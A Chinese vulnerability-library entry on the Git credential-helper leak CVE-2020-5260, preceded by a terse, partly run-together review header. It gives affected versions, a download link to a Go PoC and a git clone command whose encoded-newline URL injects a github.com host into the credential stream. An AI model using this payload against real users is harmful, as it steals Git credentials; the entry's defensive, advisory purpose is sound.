

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Concatenated branch upper bounds2.17.3 through2.26.0; configured helper with matching stored credentials and malicious clone URL

代码与实验材料：Encoded-newline URL, localserver via externalGoPoC; sourcecode gatedBaidu; screenshot only outcome

来源证据范围：bylibrary attribution/Baidu archive, no primary security advisory

- **凭据与会话边界（1）**：Nested second frontmatter and merged versions/PoC instructions; affected helper credentials prerequisite should be explicit。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（2）**：No exact fixed branches or readable helper/server behavior。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Git凭证泄露漏洞（CVE-2020-5260）

---
title: 'Git凭证泄露漏洞（CVE-2020-5260）'
date: Sun, 27 Sep 2020 12:45:42 +0000
draft: false
tags: ['白阁-漏洞库']
---

#### 描述

Git使用凭证助手(credential helper)来帮助用户存储和检索凭证。但是当一个URL中包含经过编码的换行符时，可能将非预期的值注入到credential helper的协议流中。这将使恶意URL欺骗Git客户端去向攻击者发送主机凭据。当使用受影响版本 Git对恶意 URL 执行 git clone 命令时会触发该漏洞。

#### 影响版本

Git2.17.x <= 2.17.3Git2.18.x <= 2.18.2Git2.19.x <= 2.19.3Git2.20.x <= 2.20.2Git2.21.x <= 2.21.1Git2.22.x <= 2.22.2Git2.23.x <= 2.23.1Git2.24.x <= 2.24.1Git2.25.x <= 2.25.2Git2.26.x <= 2.26.0 poc 链接：https://pan.baidu.com/s/1upYlyZFZMDuNZ5YnMnrmaQ 提取码：e9iz 启动poc：go run poc.go git在执行类似"git clone https://example.com" 这样的命令时,会请求使用协议"https"存储主机"example.com"的凭据，并在远程端请求身份验证时将返回的凭据附加到发出的请求中

 ```
git clone 'http://localhost:8088/%0ahost=github.com%0aprotocol=https' 
 ```



获取到git的凭证

#### 修复建议

升级到最新版


---

> 来源：白阁文库 BaizeSec/bylibrary
